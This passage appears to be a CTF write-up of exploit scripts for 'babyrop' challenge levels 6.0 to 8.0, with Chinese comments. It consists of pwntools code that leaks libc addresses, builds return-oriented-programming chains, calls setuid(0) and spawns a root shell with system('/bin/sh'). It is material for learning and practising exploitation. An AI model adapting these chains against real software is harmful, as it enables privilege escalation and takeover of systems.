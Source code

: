 
p.sendline(payload)

p.interactive()

level 6.0
#pop r10;ret \x41\x5a\xc3

level 7.0
#需要修改uid为0，否则system("/bin/sh")会降权
#system("/bin/sh")需要栈对齐
from pwn import *

p=process(['/challenge/babyrop_level7.0'])
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

bin_sh_offset=0x1b75aa
sys_offset=libc.symbols['system']
seteuid_offset=libc.symbols['setuid']
print(hex(seteuid_offset))

p.recvuntil(" in libc is: ")
add_str=p.recvuntil(".",drop=True)
sys_add=int(add_str,16)

basic_addr=sys_add-sys_offset

seteuid_addr=basic_addr+seteuid_offset
bin_sh=basic_addr+bin_sh_offset
id_add=basic_addr+0x15366

rdi_ret=0x402293

payload=b'\x90'*0x58+p64(rdi_ret)+p64(0)+p64(0x402291)+p64(0)*2+p64(seteuid_addr)+p64(rdi_ret)+p64(bin_sh)+p64(0x402291)+p64(0)*2+p64(sys_add)
p.send(payload)

p.interactive()

level 8.0
from pwn import *

p=process(['/challenge/babyrop_level8.0'])
elf=ELF("/challenge/babyrop_level8.0")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

rdi_ret=0x402073
rsi_r15_ret=0x402071

bin_sh_offset=0x1b75aa
puts_offset=libc.symbols["puts"]
print(hex(puts_offset))
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]

print(hex(puts_plt),hex(puts_got))

payload=b'\x90'*0x48+p64(rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(0x401dd7)
p.send(payload)
